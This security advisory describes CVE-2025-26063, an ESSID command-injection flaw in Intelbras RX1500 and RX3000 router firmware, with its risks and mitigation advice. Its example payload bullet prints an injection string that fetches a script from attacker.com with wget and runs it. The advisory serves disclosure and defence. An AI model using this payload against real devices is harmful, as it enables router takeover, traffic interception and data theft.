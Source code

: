 **Critical Vulnerability Discovered in Intelbras RX1500 and RX3000 Devices**

A significant security vulnerability has been identified in specific firmware versions of Intelbras RX1500 and RX3000 router devices. This flaw poses a critical risk, potentially allowing unauthenticated attackers to gain complete control over affected devices, compromise network security, and access sensitive data. Organizations and individuals using these devices must take immediate action to mitigate the risk.

---

### Vulnerability Details

*   **CVE ID:** **CVE-2025-26063**
*   **Affected Software:**
    *   **Intelbras RX1500** firmware version **2.2.9**
    *   **Intelbras RX3000** firmware version **1.0.11**
*   **Technical Cause:** The vulnerability lies in how the devices process the Wi-Fi network name (ESSID). An unauthenticated attacker can inject malicious code into the ESSID field when creating or configuring a network. This crafted payload is then executed by the device’s underlying operating system, leading to arbitrary code execution.
*   **Example Payload:** An attacker could craft an ESSID similar to the following to execute commands on the device:
    `MyNetwork; /usr/bin/wget http://attacker.com/malware.sh -O /tmp/m.sh; chmod +x /tmp/m.sh; /tmp/m.sh`
    This example demonstrates how a malicious script could be downloaded and executed, providing the attacker with full control.

---

### Risk Description

If exploited, this **arbitrary code execution** vulnerability grants attackers full administrative control over the affected Intelbras router. This level of compromise can lead to severe consequences, including:

*   **Network Interception:** Attackers could monitor, intercept, or redirect all network traffic passing through the device.
*   **Data Theft:** Sensitive data transmitted over the network (passwords, financial information, confidential documents) could be stolen.
*   **System Takeover:** The device could be used as a pivot point to attack other systems within the internal network.
*   **Malware Installation:** Attackers could install persistent backdoors, botnet agents, or other malware directly onto the router.
*   **Service Disruption:** The device could be rendered inoperable, disrupting internet connectivity and critical business operations.

---

### Who is at Risk

Any organization or individual currently using **Intelbras RX1500 devices with firmware version 2.2.9** or **Intelbras RX3000 devices with firmware version 1.0.11** is at direct risk. These devices are commonly used in home networks, small to medium-sized businesses, and distributed enterprise environments.

---

### Recommendations

**For Device Owners and Network Administrators:**

1.  **Immediate Firmware Update:** Check for and install the latest firmware updates released by Intelbras. This is the most crucial step to patch the vulnerability. Refer to the official Intelbras support channels for updated firmware versions.
2.  **Network Segmentation:** Isolate critical systems on a separate network segment if immediate patching is not possible.
3.  **Monitor Network Traffic:** Implement network monitoring to detect unusual activity originating from or targeting your Intelbras devices.
4.  **Review Configurations:** Ensure that default credentials have been changed and that unnecessary services are disabled.

**For Developers (Vendor – Intelbras):**

1.  **Input Validation and Sanitization:** Implement rigorous input validation and sanitization for all user-supplied data, especially for fields like the ESSID that can be processed by system commands.
2.  **Secure Coding Practices:** Adopt secure coding practices, avoiding the direct execution of unsanitized user input in shell commands or other sensitive functions. Utilize safer APIs that explicitly separate commands from arguments.
3.  **Security Audits:** Conduct regular security audits and penetration tests on firmware to identify and remediate vulnerabilities proactively.

---

### Reference Link

For the latest updates and detailed information from the vendor, please refer to the official change logs and advisories:

[https://manuais.intelbras.com.br/manual-linha-rx/ChangeLogRX1500.html](https://manuais.intelbras.com.br/manual-linha-rx/ChangeLogRX1500.html)
